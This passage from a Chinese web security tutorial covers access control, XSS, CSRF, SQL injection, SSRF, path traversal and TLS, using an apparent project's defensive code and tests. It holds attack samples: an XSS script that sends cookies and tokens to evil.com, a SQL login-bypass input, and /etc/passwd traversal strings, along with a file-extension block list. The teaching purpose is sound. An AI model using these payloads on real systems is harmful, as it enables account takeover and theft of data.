        S5["✅ 异步 bcrypt<br/>不阻塞事件循环"]
    end

    style 安全措施 fill:#e8f5e9,stroke:#2e7d32
```

### 用户名枚举攻击与防御

```mermaid
sequenceDiagram
    participant A as 攻击者
    participant S as 服务器

    Note over A,S: ❌ 不安全的实现
    A->>S: POST /login {username: "admin", password: "wrong"}
    S-->>A: "用户不存在"
    A->>S: POST /login {username: "alice", password: "wrong"}
    S-->>A: "密码错误"
    Note over A: 现在知道 alice 存在了！

    Note over A,S: ✅ 安全的实现
    A->>S: POST /login {username: "admin", password: "wrong"}
    S-->>A: "Invalid credentials"
    A->>S: POST /login {username: "alice", password: "wrong"}
    S-->>A: "Invalid credentials"
    Note over A: 无法区分哪个用户存在
```

---

# 第四章：访问控制

## 4.1 什么是访问控制

访问控制（Access Control）是决定**谁**能对**什么资源**执行**什么操作**的安全机制。

### 访问控制三要素

```mermaid
graph TB
    subgraph 三要素["访问控制三要素"]
        S["主体 Subject<br/>（谁在操作？）"]
        O["客体 Object<br/>（操作什么？）"]
        A["操作 Action<br/>（做什么？）"]
    end

    S --> R["访问控制规则"]
    O --> R
    A --> R
    R --> D["决策：允许/拒绝"]

    style S fill:#e3f2fd,stroke:#1565c0
    style O fill:#e8f5e9,stroke:#2e7d32
    style A fill:#fff3e0,stroke:#e65100
    style D fill:#f3e5f5,stroke:#6a1b9a
```

### 访问控制模型发展史

```mermaid
graph LR
    ACL["ACL<br/>访问控制列表<br/>1960s+"] --> RBAC["RBAC<br/>基于角色<br/>1990s+"]
    RBAC --> ABAC["ABAC<br/>基于属性<br/>2000s+"]
    ABAC --> PBAC["PBAC<br/>基于策略<br/>2010s+"]

    style ACL fill:#e3f2fd,stroke:#1565c0
    style RBAC fill:#e8f5e9,stroke:#2e7d32
    style ABAC fill:#fff3e0,stroke:#e65100
    style PBAC fill:#f3e5f5,stroke:#6a1b9a
```

## 4.2 RBAC 基于角色的访问控制

RBAC（Role-Based Access Control）是最常用的访问控制模型。用户不直接关联权限，而是通过**角色**间接关联。

### 核心概念

```mermaid
graph TB
    subgraph RBAC模型["RBAC 模型"]
        U["用户 User"] -->|"分配"| R["角色 Role"]
        R -->|"关联"| P["权限 Permission"]
        P -->|"定义"| 资源["资源 + 操作"]
    end

    subgraph 例子["例子"]
        E1["用户：张三"] --> E2["角色：管理员"]
        E2 --> E3["权限：读写删除"]
        E3 --> E4["资源：所有文件"]

        E5["用户：李四"] --> E6["角色：普通用户"]
        E6 --> E7["权限：只读"]
        E7 --> E8["资源：自己的文件"]
    end

    style RBAC模型 fill:#e3f2fd,stroke:#1565c0
    style 例子 fill:#e8f5e9,stroke:#2e7d32
```

### RBAC 的层次模型

```mermaid
graph TB
    subgraph RBAC0["RBAC0 - 基础模型"]
        A1["用户"] --> A2["角色"]
        A2 --> A3["权限"]
    end

    subgraph RBAC1["RBAC1 - 角色继承"]
        B1["高级角色"] -->|"继承"| B2["低级角色"]
        B2 --> B3["基础权限"]
        B1 --> B4["额外权限"]
    end

    subgraph RBAC2["RBAC2 - 约束"]
        C1["互斥角色<br/>（不能同时担任）"]
        C2["基数约束<br/>（角色最大人数）"]
        C3["先决条件<br/>（必须先有A角色）"]
    end

    subgraph RBAC3["RBAC3 - 完整模型"]
        D1["RBAC0 + RBAC1 + RBAC2"]
    end

    RBAC0 --> RBAC1 --> RBAC3
    RBAC0 --> RBAC2 --> RBAC3

    style RBAC0 fill:#e3f2fd,stroke:#1565c0
    style RBAC1 fill:#e8f5e9,stroke:#2e7d32
    style RBAC2 fill:#fff3e0,stroke:#e65100
    style RBAC3 fill:#f3e5f5,stroke:#6a1b9a
```

### RBAC 实现示例

```typescript
// RBAC 权限表
const permissions = {
  admin: ['user:create', 'user:read', 'user:delete', 'session:create', 'session:delete', 'file:read', 'file:write'],
  user:  ['session:create', 'session:delete', 'file:read', 'file:write'],
  viewer: ['file:read'],
}

// 检查权限
function hasPermission(userId: string, permission: string): boolean {
  const user = getUser(userId)
  const role = user.role  // 'admin' | 'user' | 'viewer'
  return permissions[role]?.includes(permission) ?? false
}
```

## 4.3 ABAC 基于属性的访问控制

ABAC（Attribute-Based Access Control）比 RBAC 更灵活，它基于**属性**（而不是角色）做决策。

### ABAC 决策模型

```mermaid
graph TB
    subgraph 属性["ABAC 四类属性"]
        SA["主体属性<br/>（用户角色、部门、级别）"]
        OA["客体属性<br/>（资源类型、所有者、密级）"]
        AA["操作属性<br/>（读、写、删除）"]
        EA["环境属性<br/>（时间、地点、IP）"]
    end

    SA --> PDP["策略决策点<br/>（PDP）"]
    OA --> PDP
    AA --> PDP
    EA --> PDP

    PDP -->|"允许/拒绝"| D["决策"]

    style SA fill:#e3f2fd,stroke:#1565c0
    style OA fill:#e8f5e9,stroke:#2e7d32
    style AA fill:#fff3e0,stroke:#e65100
    style EA fill:#f3e5f5,stroke:#6a1b9a
```

### ABAC 策略示例

```
# 策略：工作时间才能访问财务系统
IF user.department == "finance"
  AND resource.type == "financial_report"
  AND environment.time BETWEEN "09:00" AND "18:00"
  AND environment.ip IN corporate_network
THEN ALLOW

# 策略：用户只能编辑自己的文件
IF resource.owner == user.id
  AND action == "write"
THEN ALLOW
```

## 4.4 访问控制模型对比

| 维度 | ACL | RBAC | ABAC |
|------|-----|------|------|
| **决策依据** | 用户 ↔ 资源直接映射 | 角色 | 属性（多维度） |
| **灵活性** | 低 | 中 | 高 |
| **管理复杂度** | 高（N×M） | 中（N×R + R×P） | 高（策略复杂） |
| **可扩展性** | 差 | 好 | 很好 |
| **适用规模** | 小型 | 中大型 | 大型/复杂 |
| **典型场景** | 文件系统 | Web 应用 | 云平台、政府系统 |
| **实现难度** | 简单 | 中等 | 复杂 |
| **审计友好** | 一般 | 好 | 很好 |

```mermaid
graph LR
    subgraph 选择指南["选择指南"]
        Q1{"用户和资源少？"}
        Q2{"权限基于角色？"}
        Q3{"需要细粒度控制？"}

        A1["ACL"]
        A2["RBAC"]
        A3["ABAC"]

        Q1 -->|是| A1
        Q1 -->|否| Q2
        Q2 -->|是| A2
        Q2 -->|否| Q3
        Q3 -->|是| A3
        Q3 -->|否| A2
    end

    style A1 fill:#e3f2fd,stroke:#1565c0
    style A2 fill:#e8f5e9,stroke:#2e7d32
    style A3 fill:#fff3e0,stroke:#e65100
```

## 4.5 项目中的权限校验

### AI-CLI-Mobile 的权限模型

项目采用简化的 RBAC 模型，有两种角色：**管理员**和**普通用户**。

```mermaid
graph TB
    subgraph 角色["项目角色"]
        Admin["管理员<br/>ADMIN"]
        User["普通用户<br/>USER"]
    end

    subgraph 管理员权限["管理员权限"]
        A1["用户管理<br/>增删改查"]
        A2["查看所有会话"]
        A3["系统配置"]
        A4["查看审计日志"]
    end

    subgraph 用户权限["普通用户权限"]
        U1["创建/管理自己的会话"]
        U2["文件读写"]
        U3["终端访问"]
    end

    Admin --> A1
    Admin --> A2
    Admin --> A3
    Admin --> A4
    User --> U1
    User --> U2
    User --> U3

    style Admin fill:#ffcdd2,stroke:#c62828
    style User fill:#e3f2fd,stroke:#1565c0
```

### 管理员中间件

```typescript
// 文件：apps/server/src/routes/auth.ts

// Admin-only middleware
async function requireAdmin(request: FastifyRequest, reply: FastifyReply): Promise<void> {
  const adminUsername = getConfig().ADMIN_USERNAME
  // 检查当前用户是否是管理员
  if (!request.user || (request.user as JwtPayload).username !== adminUsername) {
    return reply.code(403).send({ error: 'Admin access required' })
  }
}

// 使用示例：用户管理路由
fastify.get('/users', {
  preHandler: requireAdmin,  // ⚠️ 只有管理员能访问
}, async () => {
  const userList = listUsers().map(({ passwordHash: _, ...rest }) => rest)
  return { users: userList }
})

fastify.post('/users', {
  preHandler: requireAdmin,  // ⚠️ 只有管理员能创建用户
}, async (request, reply) => {
  // ...
})

fastify.delete('/users/:username', {
  preHandler: requireAdmin,  // ⚠️ 只有管理员能删除用户
}, async (request, reply) => {
  const { username } = request.params as { username: string }

  // 防止管理员删除自己
  if (request.user!.username === username) {
    return reply.code(400).send({ error: 'Cannot delete yourself' })
  }

  // ...
})
```

### 会话归属检查（ABAC 元素）

```typescript
// 文件：apps/server/src/core/SessionManager.ts

// 创建会话时记录所有者
async createSession(userId: string): Promise<Session> {
  const session = {
    id: generateId(),
    userId,                    // 记录创建者
    createdAt: new Date(),
    // ...
  }
  return session
}

// 删除会话时检查归属
async destroySession(sessionId: string, userId: string): Promise<boolean> {
  const session = this.sessions.get(sessionId)
  if (!session) return false

  // ⚠️ 归属检查：只能删除自己的会话
  if (session.userId !== userId) {
    auditLog('SESSION_DESTROY_BLOCKED', userId, { sessionId, owner: session.userId })
    return false
  }

  this.sessions.delete(sessionId)
  auditLog('SESSION_DESTROY', userId, { sessionId })
  return true
}
```

```mermaid
sequenceDiagram
    participant U as 用户 A
    participant S as SessionManager
    participant DB as 会话存储

    U->>S: destroySession(sessionId="xyz")
    S->>DB: 查询 sessionId="xyz" 的会话
    DB-->>S: {id: "xyz", userId: "userB"}
    Note over S: 归属检查：session.userId !== request.userId
    S-->>U: ❌ 403 Forbidden（不能删除别人的会话）

    U->>S: destroySession(sessionId="abc")
    S->>DB: 查询 sessionId="abc" 的会话
    DB-->>S: {id: "abc", userId: "userA"}
    Note over S: 归属检查：session.userId === request.userId ✅
    S->>DB: 删除会话
    S-->>U: ✅ 成功
```

### 防止自我删除的安全设计

```typescript
// 删除用户时的安全检查
fastify.delete('/users/:username', {
  preHandler: requireAdmin,
}, async (request, reply) => {
  const { username } = request.params as { username: string }

  if (!hasUser(username)) {
    return reply.code(404).send({ error: 'User not found' })
  }

  // ✅ 防止管理员删除自己（避免失去管理权限）
  if (request.user!.username === username) {
    return reply.code(400).send({ error: 'Cannot delete yourself' })
  }

  deleteUser(username)
  auditLog('USER_DELETE', request.user!.userId, { deletedUser: username })
  return { success: true }
})
```

---

# 第五章：Web 安全攻防

## 5.1 XSS 攻击

XSS（Cross-Site Scripting，跨站脚本攻击）是最常见的 Web 安全漏洞之一。攻击者在网页中注入恶意 JavaScript 代码，当其他用户访问该页面时，恶意代码就会执行。

### XSS 攻击类型

```mermaid
graph TB
    subgraph XSS["XSS 攻击类型"]
        subgraph 存储型["存储型 XSS（最危险）"]
            S1["恶意脚本存入数据库"]
            S2["所有访问者都会执行"]
            S3["示例：论坛帖子中注入脚本"]
        end

        subgraph 反射型["反射型 XSS"]
            R1["恶意脚本在 URL 中"]
            R2["服务器将 URL 内容反射到页面"]
            R3["示例：搜索结果页"]
        end

        subgraph DOM型["DOM 型 XSS"]
            D1["恶意脚本通过前端 JS 处理"]
            D2["不经过服务器"]
            D3["示例：URL hash 处理"]
        end
    end

    style 存储型 fill:#ffcdd2,stroke:#c62828
    style 反射型 fill:#fff9c4,stroke:#f57f17
    style DOM型 fill:#e3f2fd,stroke:#1565c0
```

### XSS 攻击示例

```html
<!-- 存储型 XSS 示例 -->
<!-- 攻击者在论坛帖子中发布以下内容 -->
<script>
  // 窃取用户的 Cookie
  fetch('https://evil.com/steal?cookie=' + document.cookie)

  // 窃取用户的 Token
  const token = localStorage.getItem('accessToken')
  fetch('https://evil.com/steal?token=' + token)

  // 以用户身份执行操作
  fetch('/api/admin/users', { method: 'DELETE' })
</script>
```

### XSS 防御措施

```mermaid
graph TB
    subgraph 防御["XSS 防御措施"]
        F1["1. 输出编码<br/>HTML 实体编码"]
        F2["2. Content Security Policy<br/>限制脚本来源"]
        F3["3. HttpOnly Cookie<br/>JS 无法读取"]
        F4["4. 输入验证<br/>过滤危险字符"]
        F5["5. 使用框架<br/>React/Vue 自动转义"]
    end

    style F1 fill:#e8f5e9,stroke:#2e7d32
    style F2 fill:#e8f5e9,stroke:#2e7d32
    style F3 fill:#e8f5e9,stroke:#2e7d32
    style F4 fill:#e8f5e9,stroke:#2e7d32
    style F5 fill:#e8f5e9,stroke:#2e7d32
```

### CSP（Content Security Policy）

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-abc123';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  connect-src 'self' wss://api.example.com;
  font-src 'self';
  object-src 'none';
  frame-ancestors 'none';
```

| 指令 | 作用 | 示例 |
|------|------|------|
| `default-src` | 默认策略 | `'self'` 只允许同源 |
| `script-src` | 脚本来源 | `'self' 'nonce-abc123'` |
| `style-src` | 样式来源 | `'self'` |
| `connect-src` | AJAX/WebSocket | `'self' wss://api.example.com` |
| `img-src` | 图片来源 | `'self' data: https:` |
| `object-src` | 插件来源 | `'none'` 禁止 |
| `frame-ancestors` | 嵌入来源 | `'none'` 禁止 iframe |

## 5.2 CSRF 攻击

CSRF（Cross-Site Request Forgery，跨站请求伪造）攻击利用浏览器自动发送 Cookie 的特性，诱使用户在已登录的网站上执行非预期操作。

### CSRF 攻击流程

```mermaid
sequenceDiagram
    participant U as 用户浏览器
    participant G as 受信任网站（银行）
    participant E as 恶意网站

    Note over U,G: 用户已登录银行网站，Cookie 中有 Session

    U->>E: 1. 访问恶意网站
    E-->>U: 2. 返回包含隐藏表单的页面
    Note over U: 页面自动提交表单
    U->>G: 3. POST /transfer<br/>to=attacker&amount=10000<br/>（浏览器自动携带 Cookie）
    G->>G: 4. 验证 Cookie ✅（因为是真实 Cookie）
    G-->>U: 5. 转账成功！

    Note over U,G: ⚠️ 用户完全不知情！
```

### CSRF 防御措施

```mermaid
graph TB
    subgraph 防御["CSRF 防御"]
        F1["1. CSRF Token<br/>每个表单包含随机 Token"]
        F2["2. SameSite Cookie<br/>限制跨站携带"]
        F3["3. 检查 Origin/Referer<br/>验证请求来源"]
        F4["4. 双重 Cookie<br/>Cookie + 请求参数"]
        F5["5. 使用 Token 认证<br/>不用 Cookie（天然免疫）"]
    end

    style F1 fill:#e8f5e9,stroke:#2e7d32
    style F2 fill:#e8f5e9,stroke:#2e7d32
    style F3 fill:#e8f5e9,stroke:#2e7d32
    style F4 fill:#e8f5e9,stroke:#2e7d32
    style F5 fill:#c8e6c9,stroke:#2e7d32,stroke-width:3px
```

### 项目中的 CSRF 防护

> 💡 **AI-CLI-Mobile 天然免疫 CSRF**：项目使用 JWT Token 认证（通过 `Authorization` Header），而不是 Cookie。浏览器不会自动在跨站请求中添加 `Authorization` Header，因此天然免疫 CSRF 攻击。

```mermaid
graph LR
    subgraph Cookie方式["Cookie 认证"]
        C1["浏览器自动发送 Cookie"]
        C2["跨站请求也会携带"]
        C3["需要 CSRF 防护"]
    end

    subgraph Token方式["Token 认证（项目）"]
        T1["需要 JS 手动添加 Header"]
        T2["跨站请求不会携带"]
        T3["天然免疫 CSRF ✅"]
    end

    style Cookie方式 fill:#ffcdd2,stroke:#c62828
    style Token方式 fill:#c8e6c9,stroke:#2e7d32
```

## 5.3 SQL 注入

SQL 注入（SQL Injection）是通过在用户输入中插入恶意 SQL 代码，从而操控数据库查询的攻击方式。

### SQL 注入示例

```sql
-- 原始查询
SELECT * FROM users WHERE username = '{input}' AND password = '{password}'

-- 攻击输入
用户名: admin' --
密码: anything

-- 拼接后的查询
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'
--                                                        ↑ SQL 注释，后面的条件被忽略
-- 结果：无需密码即可登录！
```

### SQL 注入类型

```mermaid
graph TB
    subgraph SQL注入["SQL 注入类型"]
        subgraph 联合查询["联合查询注入"]
            U1["使用 UNION SELECT<br/>读取其他表的数据"]
        end

        subgraph 布尔["布尔盲注"]
            B1["通过 True/False 响应<br/>逐字符推断数据"]
        end

        subgraph 时间["时间盲注"]
            T1["通过响应延迟<br/>推断数据"]
        end

        subgraph 报错["报错注入"]
            E1["利用数据库错误信息<br/>提取数据"]
        end
    end

    style 联合查询 fill:#e3f2fd,stroke:#1565c0
    style 布尔 fill:#e8f5e9,stroke:#2e7d32
    style 时间 fill:#fff3e0,stroke:#e65100
    style 报错 fill:#ffcdd2,stroke:#c62828
```

### SQL 注入防御

| 防御措施 | 说明 | 有效性 |
|---------|------|--------|
| **参数化查询** | 使用预编译语句，参数与 SQL 分离 | ⭐⭐⭐⭐⭐ |
| **ORM 框架** | 自动处理参数化 | ⭐⭐⭐⭐⭐ |
| **输入验证** | 校验输入格式和长度 | ⭐⭐⭐ |
| **最小权限** | 数据库用户只给必要权限 | ⭐⭐⭐ |
| **WAF** | Web 应用防火墙 | ⭐⭐ |
| **转义** | 手动转义特殊字符 | ⚠️ 不可靠 |

```javascript
// ❌ 危险：字符串拼接
const query = `SELECT * FROM users WHERE username = '${username}'`

// ✅ 安全：参数化查询
const query = 'SELECT * FROM users WHERE username = ?'
db.execute(query, [username])

// ✅ 安全：使用 ORM
const user = await User.findOne({ where: { username } })
```

> 💡 **AI-CLI-Mobile 不使用 SQL 数据库**：项目使用文件系统存储用户数据（`.users.json`），因此不存在 SQL 注入风险。但了解 SQL 注入对未来的开发非常重要。

## 5.4 SSRF 攻击

SSRF（Server-Side Request Forgery，服务端请求伪造）是攻击者诱使服务器向内部网络发起请求的攻击方式。

### SSRF 攻击流程

```mermaid
sequenceDiagram
    participant A as 攻击者
    participant S as 服务器
    participant I as 内部服务

    A->>S: GET /api/proxy?url=http://192.168.1.100/admin
    S->>I: 请求内部管理接口
    I-->>S: 返回内部数据
    S-->>A: 转发内部数据

    Note over A,I: ⚠️ 攻击者通过服务器访问了内部网络！
```

### SSRF 防御

```mermaid
graph TB
    subgraph 防御["SSRF 防御"]
        F1["1. URL 白名单<br/>只允许访问指定域名"]
        F2["2. 禁止内网 IP<br/>过滤 127.0.0.1, 10.x, 192.168.x"]
        F3["3. DNS 解析检查<br/>解析后再次验证 IP"]
        F4["4. 禁止重定向<br/>或限制重定向目标"]
        F5["5. 使用代理网关<br/>隔离内部网络"]
    end

    style F1 fill:#e8f5e9,stroke:#2e7d32
    style F2 fill:#e8f5e9,stroke:#2e7d32
    style F3 fill:#e8f5e9,stroke:#2e7d32
    style F4 fill:#e8f5e9,stroke:#2e7d32
    style F5 fill:#e8f5e9,stroke:#2e7d32
```

### 内网 IP 过滤示例

```typescript
function isPrivateIP(ip: string): boolean {
  const parts = ip.split('.').map(Number)
  // 127.0.0.0/8
  if (parts[0] === 127) return true
  // 10.0.0.0/8
  if (parts[0] === 10) return true
  // 172.16.0.0/12
  if (parts[0] === 172 && parts[1] >= 16 && parts[1] <= 31) return true
  // 192.168.0.0/16
  if (parts[0] === 192 && parts[1] === 168) return true
  // 169.254.0.0/16 (link-local)
  if (parts[0] === 169 && parts[1] === 254) return true
  return false
}
```

## 5.5 路径遍历攻击

路径遍历（Path Traversal）是通过 `../` 等特殊字符访问受限目录之外文件的攻击方式。

### 路径遍历示例

```
正常请求：GET /api/fs/file?path=src/index.ts
         → 读取 /workspace/src/index.ts ✅

攻击请求：GET /api/fs/file?path=../../../etc/passwd
         → 尝试读取 /etc/passwd ❌

攻击请求：GET /api/fs/file?path=/etc/passwd
         → 尝试用绝对路径读取 ❌

攻击请求：GET /api/fs/file?path=secret.txt%00.jpg
         → Null 字节注入 ❌
```

```mermaid
graph LR
    subgraph 攻击方式["路径遍历攻击方式"]
        A1["相对路径<br/>../../../etc/passwd"]
        A2["绝对路径<br/>/etc/passwd"]
        A3["Null 字节<br/>file.txt%00.jpg"]
        A4["符号链接<br/>symlink → /etc"]
        A5["编码绕过<br/>..%2f..%2f"]
        A6["双重编码<br/>%252e%252e%252f"]
    end

    style 攻击方式 fill:#ffcdd2,stroke:#c62828
```

## 5.6 项目中的路径遍历防御

AI-CLI-Mobile 项目实现了非常健壮的路径遍历防御，这是一个值得深入学习的安全实现。

### sanitizePath 函数

```typescript
// 文件：apps/server/src/routes/fs.ts

async function sanitizePath(inputPath: string): Promise<string | null> {
  // 1. 检查 Null 字节
  if (inputPath.includes('\0')) return null

  const root = getProjectRoot()

  // 2. 解析为绝对路径
  const resolved = path.resolve(root, inputPath)

  // 3. 检查是否在根目录内
  if (!resolved.startsWith(root + path.sep) && resolved !== root) {
    return null
  }

  // 4. 解析符号链接，再次检查
  try {
    const real = await fs.realpath(resolved)
    if (!real.startsWith(root + path.sep) && real !== root) {
      return null
    }
    return real
  } catch (err: unknown) {
    const code = (err as NodeJS.ErrnoException)?.code
    if (code === 'ENOENT') return resolved  // 文件不存在但路径合法
    return null
  }
}
```

### 防御层次详解

```mermaid
flowchart TB
    A["输入路径"] --> B{"包含 Null 字节？"}
    B -->|是| Z["❌ 拒绝"]
    B -->|否| C["path.resolve() 解析"]
    C --> D{"在根目录内？"}
    D -->|否| Z
    D -->|是| E["fs.realpath() 解析符号链接"]
    E --> F{"真实路径在根目录内？"}
    F -->|否| Z
    F -->|是| G["✅ 允许访问"]

    style Z fill:#ffcdd2,stroke:#c62828
    style G fill:#c8e6c9,stroke:#2e7d32
```

**防御层次：**

| 层次 | 防御措施 | 防御的攻击 |
|------|---------|-----------|
| 第1层 | Null 字节检查 | `%00` 截断攻击 |
| 第2层 | `path.resolve()` | 相对路径遍历 `../` |
| 第3层 | 前缀检查 | 绝对路径逃逸 `/etc/passwd` |
| 第4层 | `fs.realpath()` | 符号链接逃逸 |
| 第5层 | 再次前缀检查 | 符号链接指向外部目录 |

### 危险文件类型过滤

```typescript
// 文件：apps/server/src/routes/fs.ts

const DANGEROUS_EXTENSIONS = new Set([
  '.exe', '.bat', '.cmd', '.com', '.msi',   // Windows 可执行文件
  '.ps1',                                     // PowerShell 脚本
  '.vbs',                                     // VBScript
  '.dll', '.so', '.dylib',                    // 动态链接库
  '.app',                                     // macOS 应用
])

// 写入文件时检查
const ext = path.extname(resolved).toLowerCase()
if (DANGEROUS_EXTENSIONS.has(ext)) {
  auditLog('FILE_WRITE_BLOCKED', request.user?.userId, { path: relativePath, ext })
  return reply.code(403).send({ error: `File type '${ext}' is not allowed` })
}
```

### 文件大小限制

```typescript
const MAX_FILE_SIZE = 1048576 // 1MB

// 读取文件时检查
if (stat.size > MAX_FILE_SIZE) {
  return reply.code(413).send({ error: 'File too large' })
}

// 写入文件时检查
if (Buffer.byteLength(content, 'utf-8') > MAX_FILE_SIZE) {
  return reply.code(413).send({ error: 'Content too large (max 1MB)' })
}
```

### 原子写入

```typescript
// 使用 write-then-rename 原子写入，防止崩溃时文件截断
const tmpPath = resolved + '.tmp'
try {
  await fs.writeFile(tmpPath, content, 'utf-8')
  await fs.rename(tmpPath, resolved)
} catch {
  // 清理可能残留的临时文件
  await fs.unlink(tmpPath).catch(() => {})
  return reply.code(500).send({ error: 'Failed to write file' })
}
```

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as 服务器
    participant FS as 文件系统

    C->>S: PUT /api/fs/file {path, content}
    S->>S: sanitizePath() 验证路径
    S->>S: 检查危险扩展名
    S->>S: 检查文件大小
    S->>FS: 1. 写入临时文件 xxx.tmp
    Note over FS: 如果此时崩溃，<br/>原文件不受影响
    S->>FS: 2. rename(xxx.tmp, xxx)
    Note over FS: rename 是原子操作
    S-->>C: ✅ 成功
```

### 安全测试覆盖

项目的测试文件覆盖了各种攻击场景：

```typescript
// 文件：apps/server/src/__tests__/security.test.ts

// === 路径遍历测试 ===
it('should reject path traversal with ../', async () => {
  const res = await app.inject({
    method: 'GET',
    url: '/api/fs/file',
    query: { path: '../../../etc/passwd' },
    headers: { authorization: `Bearer ${validToken}` },
  })
  expect(res.statusCode).toBe(403)
})

it('should reject path traversal with absolute path', async () => {
  const res = await app.inject({
    method: 'GET',
    url: '/api/fs/file',
    query: { path: '/etc/passwd' },
    headers: { authorization: `Bearer ${validToken}` },
  })
  expect(res.statusCode).toBe(403)
})

it('should reject null byte in path', async () => {
  const res = await app.inject({
    method: 'GET',
    url: '/api/fs/file',
    query: { path: 'secret.txt\0.jpg' },
    headers: { authorization: `Bearer ${validToken}` },
  })
  expect(res.statusCode).toBe(403)
})

// === 文件类型测试 ===
it('should reject writing dangerous file types (.exe)', async () => {
  const res = await app.inject({
    method: 'PUT',
    url: '/api/fs/file',
    headers: { authorization: `Bearer ${validToken}`, 'content-type': 'application/json' },
    body: JSON.stringify({ path: 'malware.exe', content: 'MZ' }),
  })
  expect(res.statusCode).toBe(403)
})

// === 文件大小测试 ===
it('should reject oversized content', async () => {
  const res = await app.inject({
    method: 'PUT',
    url: '/api/fs/file',
    headers: { authorization: `Bearer ${validToken}`, 'content-type': 'application/json' },
    body: JSON.stringify({ path: 'big.txt', content: 'x'.repeat(1048577) }),
  })
  expect(res.statusCode).toBe(413)
})
```

---

# 第六章：传输安全

## 6.1 TLS/HTTPS 基础

TLS（Transport Layer Security）是保护网络通信安全的加密协议，HTTPS 就是 HTTP + TLS。

### 为什么需要 HTTPS？

```mermaid
graph TB
    subgraph HTTP["❌ HTTP（不安全）"]
        H1["数据明文传输"]
        H2["容易被窃听"]
        H3["容易被篡改"]
        H4["容易被冒充"]
    end

    subgraph HTTPS["✅ HTTPS（安全）"]
        HS1["数据加密传输"]
        HS2["窃听者只能看到密文"]
        HS3["篡改会被检测到"]
        HS4["身份通过证书验证"]
    end

    style HTTP fill:#ffcdd2,stroke:#c62828
    style HTTPS fill:#c8e6c9,stroke:#2e7d32
```

### TLS 提供的三重保护

```mermaid
graph LR
    subgraph 保护["TLS 三重保护"]
        C["机密性<br/>Confidentiality<br/>数据加密"]
        I["完整性<br/>Integrity<br/>防篡改"]
        A["身份验证<br/>Authentication<br/>证书验证"]
    end

    style C fill:#e3f2fd,stroke:#1565c0
    style I fill:#e8f5e9,stroke:#2e7d32
    style A fill:#fff3e0,stroke:#e65100
```

| 保护 | 机制 | 作用 |
|------|------|------|
| **机密性** | 对称加密（AES-256-GCM） | 数据加密传输，窃听者无法读取 |
| **完整性** | HMAC / AEAD | 数据被篡改会被检测到 |
| **身份验证** | 数字证书 + CA | 确认服务器身份，防止中间人 |

## 6.2 TLS 握手过程

### TLS 1.3 握手（最新版本）

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as 服务器

    C->>S: 1. ClientHello<br/>支持的加密套件、随机数、密钥共享
    S-->>C: 2. ServerHello<br/>选择的加密套件、随机数、密钥共享
    S-->>C: 3. 证书 + CertificateVerify + Finished

    Note over C: 4. 验证证书
    Note over C: 5. 计算会话密钥

    C->>S: 6. Finished

    Note over C,S: === 加密通信开始 ===

    C->>S: 7. 加密的 HTTP 请求
    S-->>C: 8. 加密的 HTTP 响应
```

### TLS 1.2 vs TLS 1.3

| 维度 | TLS 1.2 | TLS 1.3 |
|------|---------|---------|
| **握手往返** | 2-RTT | 1-RTT（0-RTT） |
| **密钥交换** | RSA / DHE / ECDHE | 仅 ECDHE / DHE |
| **加密套件** | 很多（含不安全的） | 仅 5 个安全套件 |
| **前向保密** | 可选 | 强制 |
| **0-RTT** | ❌ | ✅（有重放风险） |
| **安全性** | 中 | 高 |
| **性能** | 较慢 | 更快 |

## 6.3 HSTS

HSTS（HTTP Strict Transport Security）告诉浏览器**只能通过 HTTPS** 访问网站。

### HSTS 工作原理

```mermaid
sequenceDiagram
    participant U as 用户
    participant B as 浏览器
    participant S as 服务器

    U->>B: 输入 http://example.com
    B->>S: HTTP 请求
    S-->>B: 301 重定向到 HTTPS<br/>+ Strict-Transport-Security: max-age=31536000
    B->>S: HTTPS 请求
    S-->>B: 正常响应

    Note over B: 浏览器记住：example.com 只用 HTTPS

    U->>B: 再次输入 http://example.com
    Note over B: 浏览器自动转换为 https://<br/>（不再发送 HTTP 请求）
    B->>S: HTTPS 请求
    S-->>B: 正常响应
```

### HSTS 配置

```http
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

| 属性 | 说明 | 推荐值 |
|------|------|--------|
| `max-age` | 有效期（秒） | 31536000（1年） |
| `includeSubDomains` | 包含子域名 | 建议开启 |
| `preload` | 加入浏览器预加载列表 | 按需开启 |

### 项目中的 Helmet 安全头

```typescript
// AI-CLI-Mobile 使用 @fastify/helmet 设置安全响应头
import helmet from '@fastify/helmet'

await fastify.register(helmet, {
  // 自动设置以下安全头：
  // - Strict-Transport-Security (HSTS)
  // - X-Content-Type-Options: nosniff
  // - X-Frame-Options: DENY
  // - X-XSS-Protection: 0
  // - Content-Security-Policy
  // - 等等...
})
```

## 6.4 证书管理

### 证书类型对比

| 类型 | 验证级别 | 签发时间 | 价格 | 适用场景 |
|------|---------|---------|------|---------|
| **DV（域名验证）** | 仅验证域名所有权 | 分钟级 | 免费（Let's Encrypt） | 个人网站、API |
| **OV（组织验证）** | 验证组织真实性 | 1-3天 | $50-200/年 | 企业网站 |
| **EV（扩展验证）** | 严格验证组织 | 1-2周 | $150-500/年 | 金融、电商 |

### Let's Encrypt 自动化

```bash
# 使用 certbot 获取免费证书
sudo certbot certonly --standalone -d example.com

# 证书文件
/etc/letsencrypt/live/example.com/
├── fullchain.pem   # 完整证书链
├── privkey.pem     # 私钥
├── cert.pem        # 服务器证书
└── chain.pem       # 中间证书

# 自动续期（crontab）
0 0 1 * * certbot renew --quiet
```

### 项目中的 Nginx TLS 配置

```nginx
# 推荐的 Nginx TLS 配置
server {
    listen 443 ssl http2;
    server_name example.com;

    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem;

    # TLS 版本：只允许 1.2 和 1.3
    ssl_protocols TLSv1.2 TLSv1.3;

    # 加密套件
    ssl_ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384;

    # 优先使用服务器的加密套件
    ssl_prefer_server_ciphers off;

    # HSTS
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;

    # OCSP Stapling
    ssl_stapling on;
    ssl_stapling_verify on;

    location / {
        proxy_pass http://localhost:3000;
        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "upgrade";
        proxy_set_header Host $host;
